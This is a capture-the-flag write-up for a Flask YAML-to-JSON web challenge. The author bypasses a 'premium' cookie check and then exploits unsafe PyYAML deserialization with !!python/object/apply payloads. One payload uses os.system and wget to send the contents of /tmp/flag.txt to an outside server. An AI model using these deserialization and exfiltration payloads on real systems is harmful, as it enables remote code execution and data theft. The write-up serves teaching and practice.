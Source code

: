 # Challenge Name: Yaml-2-Json




![date](https://img.shields.io/badge/date-17.04.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![misc category](https://img.shields.io/badge/category-Web-blueviolet.svg)   
![level](https://img.shields.io/badge/level-Medium-blue.svg)
![score](https://img.shields.io/badge/score-50-blue.svg)

## Description

Checkout my useful tool to convert YAML to JSON format. http://yaml-2-json.ctf2021.hackpack.club

Hint : flag.txt is located in /tmp/flag.txt

## Detailed solution

Starting by opening the challenge link https://yaml-2-json.ctf2021.hackpack.club/ 

It's a flask app that Parse any YAML to JSON 

![image](https://user-images.githubusercontent.com/72421091/115270968-60d2e900-a12c-11eb-8c71-51920603e28d.png)

We can see a text a the end of the page  

```
you must have a premium account to access all the features
```

Checking the request headers we can see that we have a cookie 
  
```
cookie: _890f5=http://192.168.181.16:10993; premium=false
``` 
Let's change premium value to true ```premium=true```  

``` 
curl 'https://yaml-2-json.ctf2021.hackpack.club/' \
  -H 'authority: yaml-2-json.ctf2021.hackpack.club' \
  -H 'cache-control: max-age=0' \
  -H 'sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'sec-fetch-site: none' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-user: ?1' \
  -H 'sec-fetch-dest: document' \
  -H 'accept-language: en-US,en;q=0.9,ar;q=0.8,fr;q=0.7' \
  -H 'cookie: _890f5=http://192.168.181.16:10993; premium=true' \
  --compressed
``` 
Output 

![image](https://user-images.githubusercontent.com/72421091/115272571-118db800-a12e-11eb-8851-ba9552fb9de3.png)  

Our app is a flask app which is a micro web framework written in Python. The app use YAML to parse any YAML to JSON.  

There's a known vulnerability in PyYamal, a deserialization RCE attack

https://dl.packetstormsecurity.net/papers/general/yaml-deserialization.pdf

I started by a payload to run the command "ls" to list the files in your current directory 

```
!!python/object/apply:subprocess.check_output ["ls"]
``` 

![image](https://user-images.githubusercontent.com/72421091/115276930-2d478d00-a133-11eb-9d1f-2f27b89a6c32.png)


We can see all the files in the current directory /app 

The hint from description mention that flag.txt is located in /tmp/flag.txt 

So we need to read the /tmp/flag.txt to get our flag  

The method used is kinda limit to simple commands like ls,pwd.. 

We can use os.system which can execute many commands but the probleme is that the output is blind we only get **0** if the command is successful 

![image](https://user-images.githubusercontent.com/72421091/115275175-025c3980-a131-11eb-8444-63c14c8967cc.png)

I'm gonna use curl to print the command output to my python web server 

Payload : ```!!python/object/apply:os.system ["wget http://10.10.10.10:8080/?`cat /tmp/flag.txt`"]```

![image](https://user-images.githubusercontent.com/72421091/115277357-b4950080-a133-11eb-9195-168e9b0f9789.png)


![image](https://user-images.githubusercontent.com/72421091/115276504-9ed30b80-a132-11eb-9ca7-0ff3dec4c682.png)

Decode the url encoded ```flag%7BPy_PyYaml_Yaml_Py%7D``` and we got our flag  

## Flag

```
flag{Py_PyYaml_Yaml_Py}
```

